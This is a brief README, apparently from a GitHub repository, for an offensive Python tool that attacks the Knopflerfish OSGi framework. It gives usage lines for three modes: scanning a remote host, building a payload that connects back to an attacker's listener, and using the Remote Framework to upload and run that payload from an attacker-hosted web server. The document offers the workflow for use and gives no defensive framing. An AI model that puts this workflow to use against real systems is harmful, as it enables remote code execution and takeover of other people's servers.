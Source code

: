 #KFFT
Knopflerfish Attack tool

KFT usage and "modes"
Mode 1 runs an enum scan
-Checks for default bundle info, HTTPConsole, and if the remote framework is running
-Usage: python knopflerfucktool.py 1 <rhost> <rport>
Mode 2 outputs a payload to upload however you like
-Usage: python knopflerfucktool.py 2 <lhost> <lport>
-This mode also makes the payload needed for mode 3
-Requires openJDK 1.8.0 and Eclipse Equinox (eceq.jar)
Mode 3 uses the KF Remote Framework to upload and run a payload
-Usage: python knopflerfucktool.py 3 <rhost> <rport> <srvhost> <srvport> <lport>
-This mode needs the payload from mode 2
-The payload needs to be host on the web root of http://<srvhost>:<srvport>/
